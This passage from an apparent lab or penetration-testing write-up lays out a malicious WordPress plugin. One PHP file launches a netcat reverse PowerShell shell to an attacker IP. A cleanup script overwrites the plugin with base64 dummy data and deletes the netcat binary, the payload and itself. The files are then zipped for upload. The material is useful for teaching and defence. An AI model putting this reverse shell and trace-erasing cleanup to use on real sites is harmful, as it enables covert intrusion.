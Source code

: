 ### wp\_config.php

> Executes reverse PowerShell

```php
# wp_config.php

<?php
  system("nc342as.exe -e powershell.exe 10.10.XX.XXX 9002")
?>
```

### wp\_cleanup.php

> Allows to remotely delete the contents of the plugin, leaving only the main plugin file with the dummy data. This way if you want to update the payload, call this file and then deactivate and remove Example plugin.

```php
# wp_cleanup.php

<?php

file_put_contents("pshield_plugin.php", base64_decode("PD9waHAgICAKLyoKICAgUGx1Z2luIE5hbWU6IEV4YW1wbGUKICAgUGx1Z2luIFVSSTogaHR0cHM6Ly9leGFtcGxlLmNvbQogICBkZXNjcmlwdGlvbjogCiAgIFZlcnNpb246IDEuMAogICBBdXRob3I6IE1lCiAgIEF1dGhvciBVUkk6IGh0dHBzOi8vZXhhbXBsZS5jb20KICAgTGljZW5zZTogTUlUCiAgICovCj8+Cg=="));

unlink("wp_config.php");
unlink("nc342as.exe");
unlink(__FILE__);

?>
```

### pshield\_plugin.zip

> Plugin archive ready for upload

```plaintext
$ zip pshield_plugin.zip *
  adding: nc342as.exe (deflated 53%)
  adding: pshield_plugin.php (deflated 45%)
  adding: wp_cleanup.php (deflated 38%)
  adding: wp_config.php (deflated 6%)
```

[Back to top](#contents) ⤴

# Exploiting (low privilege shell access)

> 🔔 `CyberEthical.Me` is maintained purely from your donations - consider one-time sponsoring on the [Sponsor](/sponsor) button or 🎁 [become a Patron](https://www.patreon.com/cyberethicalme) which also gives you some bonus perks.

